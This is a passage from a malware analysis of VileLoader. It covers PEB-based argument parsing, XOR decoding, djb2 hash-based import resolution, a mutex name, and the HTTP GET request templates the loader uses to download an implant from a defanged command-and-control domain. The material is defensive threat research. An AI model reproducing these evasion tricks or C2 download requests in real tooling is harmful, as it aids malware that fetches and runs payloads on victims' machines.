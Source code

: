 
However, while older samples parsed command line arguments by resolving and calling dedicated Windows API functions (such as “GetCommandLineW”), the recent samples directly read this information from their own PEB (Process Environment Block) structure. This may have been done to better bypass the detection of some security solutions.
Stage 2 – In-memory downloader
The second stage content is extracted from VileLoader’s encoded companion shellcode file, and run by VileLoader’s first stage in-memory, in a new thread. From a data perspective, the second stage shellcode (once unpacked by the first stage) is a PE binary that is stripped of its headers and embeds additional encoded data.
This second stage starts by decoding the required data from its own content (using the Type C XOR algorithm). Some data are decoded as hash values that were generated with the djb2 algorithm. Those hashes are in turn used to resolve the required function imports through a homebrew IAT: required libraries are loaded, their export tables are parsed, exported function names are hashed with djb2, and the hashes are compared to hashes that were decoded from internal data. Stage 2 continues by creating a mutex, whose name has been stable since Q2 2020, and which is the same as in VileRAT (“Global\wU3aqu1t2y8uN”).
Finally, VileLoader’s second stage builds an HTTP GET request that is used to download an implant package. In older VileLoader samples, the downloader used a static URL that looked as follows:





http://<domain>/c&v=2&u=<argument 1>&a=<argument 2>&c=<argument 3>




1

http://<domain>/c&v=2&u=<argument 1>&a=<argument 2>&c=<argument 3>




The only evasion attempt consisted in randomly choosing an HTTP User-Agent header value amongst a fixed list of four. VileLoader used the targeted system’s uptime as a source of “randomness”. In recent samples, developers tried to improve these evasion techniques, and the HTTP request now looks like this:





GET /administrator/index.php HTTP/1.1
Connection: keep-Alive
Accept-Language: en-US,en;q=0.8
Accept: */*
Referer: http://www.yahoo.com
Cookie: source=<encrypted blob>;
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Host: corstand[.]com




12345678

GET /administrator/index.php HTTP/1.1Connection: keep-AliveAccept-Language: en-US,en;q=0.8Accept: */*Referer: http://www.yahoo.comCookie: source=<encrypted blob>;User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36Host: corstand[.]com
